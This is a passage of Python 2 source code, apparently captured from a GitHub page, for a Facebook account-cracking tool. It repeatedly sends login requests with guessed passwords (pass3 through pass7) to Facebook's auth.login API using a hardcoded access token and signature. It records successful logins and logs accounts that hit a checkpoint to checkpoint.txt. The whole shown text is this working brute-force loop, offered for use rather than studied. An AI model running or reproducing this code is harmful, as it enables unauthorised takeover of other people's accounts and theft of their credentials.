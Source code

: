 								print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
								oks.append(user+pass3)
							else:
								if "www.facebook.com" in q3["error_msg"]:
									print "[Checkpoint] " + user + " | " + pass3
									cps = open("checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									data4 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q4 = json.loads(data4.text)
									if "access_token" in q4:
										print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
										oks.append(user+pass4)
									else:
										if "www.facebook.com" in q4["error_msg"]:
											print "[Checkpoint] " + user + " | " + pass4
											cps = open("checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											data5 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q5 = json.loads(data5.text)
											if "access_token" in q5:
												print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5
												oks.append(user+pass5)
											else:
												if "www.facebook.com" in q5["error_msg"]:
													print "[Checkpoint] " + user + " | " + pass5
													cps = open("checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else:
													data6 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q6 = json.loads(data6.text)
													if "access_token" in q6:
														print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
														oks.append(user+pass6)
													else:
														if "www.facebook.com" in q6["error_msg"]:
															print "[Checkpoint] " + user + " | " + pass6
															cps = open("checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														else:
															data7 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q7 = json.loads(data7.text)
															if "access_token" in q7:
																print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass7
																oks.append(user+pass7)
															else:
																if "www.facebook.com" in q7["error_msg"]: